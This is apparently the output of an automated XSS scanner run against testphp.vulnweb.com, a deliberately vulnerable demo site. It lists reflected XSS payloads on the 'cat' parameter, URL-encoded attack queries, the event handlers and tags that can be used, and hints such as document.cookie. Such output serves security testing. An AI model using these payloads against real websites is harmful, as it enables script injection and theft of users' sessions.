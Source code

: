 ```
| 11 | HIGH  | XSS              | GET    | cat   | <select autofocus onfocus=alert(45)>   | reflected onfocus XSS Code                    |
| 12 | HIGH  | XSS              | GET    | cat   | <input autofocus onfocus=alert(45)>    | reflected onfocus XSS Code                    |
| 13 | HIGH  | XSS              | GET    | cat   | <textarea autofocus onfocus=alert(45)> | reflected onfocus XSS Code                    |
| 14 | HIGH  | XSS              | GET    | cat   | <audio src onloadstart=alert(45)>      | reflected HTML5 XSS Code                      |
| 15 | HIGH  | XSS              | GET    | cat   | <meter onmouseover=alert(45)>0</meter> | reflected HTML5 XSS Code                      |
| 16 | HIGH  | XSS              | GET    | cat   | "><iframe/src=JavaScriPt:alert(45)>    | reflected XSS Code                            |
| 17 | HIGH  | XSS              | GET    | cat   | <video/poster/onerror=alert(45)>       | reflected HTML5 XSS Code                      |
| 18 | HIGH  | XSS              | GET    | cat   | <keygen autofocus onfocus=alert(45)>   | reflected onfocus XSS Code                    |
| 19 | VULN  | XSS              | GET    | cat   | <script>alert(45)</script>             | triggered <script>alert(45)</script>          |
| 20 | HIGH  | XSS              | GET    | cat   | <marquee onstart=alert(45)>            | triggered <marquee onstart=alert(45)>         |
| 21 | HIGH  | XSS              | GET    | cat   | <details/open/ontoggle="alert(45)">    | triggered <details/open/ontoggle="alert(45)"> |
| 22 | HIGH  | XSS              | GET    | cat   | <audio src onloadstart=alert(45)>      | triggered <audio src onloadstart=alert(45)>   |
| 23 | VULN  | XSS              | GET    | cat   | '"><svg/onload=alert(45)>              | triggered <svg/onload=alert(45)>              |
+----+-------+------------------+--------+-------+----------------------------------------+-----------------------------------------------+
< Available Objects >
[cat] param
 + Available Special Char: ` ( \ ' { ) } [ : $ ]
 + Available Event Handler: "onBeforeEditFocus","onAbort","onActivate","onAfterUpdate","onBeforeCopy","onAfterPrint","onBeforeActivate","onBeforeCut","onBeforeDeactivate","onChange","onBeforePrint","onBounce","onBeforeUnload","onCellChange","onBeforePaste","onClick","onBegin","onBlur","onBeforeUpdate","onDataSetChanged","onCut","onDblClick","onCopy","onContextMenu","onDataSetComplete","onDeactivate","onDataAvailable","onControlSelect","onDrag","onDrop","onDragEnd","onEnd","onDragLeave","onDragStart","onDragOver","onDragEnter","onDragDrop","onError","onErrorUpdate","onFinish","onFilterChange","onKeyPress","onHelp","onFocus","onInput","onHashChange","onKeyDown","onFocusIn","onFocusOut","onMessage","onMouseDown","onLoad","onLayoutComplete","onMouseEnter","onLoseCapture","onloadstart","onMediaError","onKeyUp","onMediaComplete","onMouseOver","onMouseWheel","onMove","onMouseMove","onMouseOut","onOffline","onMoveStart","onMouseLeave","onMouseUp","onMoveEnd","onPropertyChange","onOnline","onPause","onPaste","onReadyStateChange","onRedo","onProgress","onPopState","onOutOfSync","onRepeat","onResume","onRowExit","onReset","onResizeEnd","onRowsEnter","onResizeStart","onReverse","onRowDelete","onRowInserted","onResize","onStop","onSeek","onSelect","onSubmit","onStorage","onStart","onScroll","onSelectionChange","onSyncRestored","onSelectStart","onUnload","ontouchstart","onbeforescriptexecute","onTimeError","onURLFlip","ontouchmove","ontouchend","onTrackChange","onUndo","onafterscriptexecute","onpointermove","onpointerleave","onpointerup","onpointerover","onpointerdown","onpointerenter","onloadstart","onloadend","onpointerout"
 + Available HTML Tag: "script","img","embed","video","audio","meta","style","frame","iframe","svg","object","frameset","applet"
 + Available Useful Code: "document.cookie","document.location","window.location"

< Raw Query >
[0] http://testphp.vulnweb.com/listproducts.php?-
..snip..
[19] http://testphp.vulnweb.com/listproducts.php?cat=123%22%3E%3Cscript%3Ealert(45)%3C/script%3E&zfdfasdf=124fffff
[20] http://testphp.vulnweb.com/listproducts.php?cat=123%22'%3E%3Cmarquee%20onstart=alert(45)%3E&zfdfasdf=124fffff
[21] http://testphp.vulnweb.com/listproducts.php?cat=123%22'%3E%3Cdetails/open/ontoggle=%22alert(45)%22%3E&zfdfasdf=124fffff
[22] http://testphp.vulnweb.com/listproducts.php?cat=123%22'%3E%3Caudio%20src%20onloadstart=alert(45)%3E&zfdfasdf=124fffff
```